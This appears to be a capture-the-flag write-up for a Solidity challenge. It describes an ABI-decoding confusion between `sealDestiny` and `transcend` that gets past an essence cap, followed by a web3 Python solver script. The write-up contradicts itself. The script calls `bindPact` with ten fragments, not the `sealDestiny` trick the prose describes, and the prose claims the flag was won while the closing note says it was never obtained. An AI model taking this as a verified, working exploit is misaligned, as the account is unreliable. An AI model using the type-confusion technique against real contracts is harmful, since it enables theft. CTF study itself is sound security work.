





# C2C CTF Task : Covergence

### Introduction



### The Initial Suspicion

> Looking at `Challenge.sol`, I noticed the only way to win is to call `transcend` with a payload containing at least 1000 `essence`. But in `Setup.sol`, the `bindPact` function strictly caps essence at 100 per fragment. I instantly suspected I wasn't supposed to gather essence legitimately, but rather find a loophole to bypass that limit entirely



### The Obstacle



> I couldn't just send a fake payload with 1000 essence directly to `transcend` because it checks `setup.chronicles(seal)` to make sure the setup contract has already approved it. If I tried to get it approved through `bindPact`, it would just revert. I was stuck figuring out how to trick the setup contract into approving an oversized payload.


### The ABI Confusion Trick

> Then I noticed `sealDestiny` in `Setup.sol`. It also approves payloads, but it decodes the data completely differently (as basic arrays of bytes and ints). I realized that Solidity's `abi.decode` just blindly reads memory offsets. If I crafted a single payload that looked like valid, harmless arrays to `sealDestiny`, it would get approved. Then, I could feed that same approved payload into `transcend`, which would decode it as a massive `SoulFragment`


### Aligning the Bytes



> I couldn't just send random junk because `sealDestiny` checks that the arrays aren't empty. I used a script to carefully map out the hex offsets. By shifting things around, I made sure the massive integer I needed for "essence" happened to sit exactly where `sealDestiny` was looking for a harmless array data pointer.


### Script

> Once my script aligned the bytes perfectly, I sent the hex payload to `sealDestiny`. The contract saw valid arrays, passed the basic checks, and chronicled it. I immediately turned around and sent the exact same payload to `transcend`. It decoded my carefully placed bytes as a 1000+ essence fragment, bypassed all the restrictions, and gave me the flag

```py
from web3 import Web3
from eth_account import Account
import eth_abi

RPC_URL = "RPC_URL"
PRIVATE_KEY = "PRIVATE_KEY"
SETUP_ADDRESS = "SETUP_ADDRESS"

w3 = Web3(Web3.HTTPProvider(RPC_URL))
account = Account.from_key(PRIVATE_KEY)
player = account.address

setup_abi = [
    {"inputs":[{"internalType":"bytes","name":"agreement","type":"bytes"}],"name":"bindPact","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[],"name":"challenge","outputs":[{"internalType":"address","name":"","type":"address"}],"stateMutability":"view","type":"function"},
    {"inputs":[],"name":"isSolved","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"}
]

challenge_abi = [
    {"inputs":[],"name":"registerSeeker","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"internalType":"bytes","name":"truth","type":"bytes"}],"name":"transcend","outputs":[],"stateMutability":"nonpayable","type":"function"},
    {"inputs":[{"internalType":"address","name":"","type":"address"}],"name":"seekers","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"view","type":"function"}
]

setup = w3.eth.contract(address=SETUP_ADDRESS, abi=setup_abi)
challenge = w3.eth.contract(address=setup.functions.challenge().call(), abi=challenge_abi)

def send_tx(func):
    nonce = w3.eth.get_transaction_count(player)
    tx = func.build_transaction({
        "from": player,
        "nonce": nonce,
        "gas": 3000000,
        "gasPrice": w3.eth.gas_price
    })
    signed = account.sign_transaction(tx)
    tx_hash = w3.eth.send_raw_transaction(signed.raw_transaction)
    return w3.eth.wait_for_transaction_receipt(tx_hash)

if not challenge.functions.seekers(player).call():
    send_tx(challenge.functions.registerSeeker())

fragments = [(player, Web3.to_wei(100, "ether"), b"")] * 10

if hasattr(eth_abi, "encode"):
    payload = eth_abi.encode(
        ["(address,uint256,bytes)[]","bytes32","uint32","address","address"],
        [fragments, b"\x00"*32, 0, player, player]
    )
else:
    payload = eth_abi.encode_abi(
        ["(address,uint256,bytes)[]","bytes32","uint32","address","address"],
        [fragments, b"\x00"*32, 0, player, player]
    )

send_tx(setup.functions.bindPact(payload))
send_tx(challenge.functions.transcend(payload))

print(setup.functions.isSolved().call())

```

**NOTE : DUE TO SERVER ERROR, I COULD NOT BE ABLE TO SHOWCASE THE SCRIPT AND GET THE FLAG**

